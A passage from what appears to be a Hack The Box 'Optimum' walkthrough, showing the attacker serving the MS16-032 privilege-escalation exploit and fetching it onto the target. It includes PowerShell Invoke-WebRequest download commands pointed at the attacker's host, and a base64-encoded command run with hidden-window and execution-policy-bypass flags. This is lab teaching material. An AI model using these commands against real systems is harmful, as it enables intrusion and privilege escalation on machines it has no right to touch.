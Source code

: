 ### Attempting File Transfer

I copied it and served it:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/optimum/www]
└─$ searchsploit -m windows/local/39719.ps1
  Exploit: Microsoft Windows 7 < 10 / 2008 < 2012 R2 (x86/x64) - Local Privilege Escalation (MS16-032) (PowerShell)
      URL: https://www.exploit-db.com/exploits/39719
     Path: /usr/share/exploitdb/exploits/windows/local/39719.ps1
File Type: C source, ASCII text, with CRLF line terminators

Copied to: /home/mac/Documents/HTB/optimum/www/39719.ps1


┌──(mac㉿kali)-[~/Documents/HTB/optimum/www]
└─$ sudo python3 -m http.server 80
[sudo] password for mac: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

I tried a couple of powershell commands to download the file to the box:

```cmd
powershell -command "Invoke-WebRequest http://10.10.16.211/exp.ps1 -o exp.ps1"
powershell.exe -command "Invoke-WebRequest http://10.10.16.211/exp.ps1 -o exp.ps1"
```

But neither of them got a hit.

I had a look at the python script, as it successfully executed powershell. It used this syntax:

```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -WindowStyle Hidden -EncodedCommand
```

Where the encoded command was generated this way:

```python
encoded_command = base64.b64encode(command.encode("utf-16le")).decode()
```

I generated this locally in an interactive python shell:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/optimum]
└─$ python3 
Python 3.9.2 (default, Feb 28 2021, 17:03:44) 
[GCC 10.2.1 20210110] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import base64
>>> command = "Invoke-WebRequest http://10.10.16.211/exp.ps1 -o exp.ps1"
>>> print(base64.b64encode(command.encode("utf-16le")).decode())
SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgAxADYALgAyADEAMQAvAGUAeABwAC4AcABzADEAIAAtAG8AIABlAHgAcAAuAHAAcwAxAA==
```
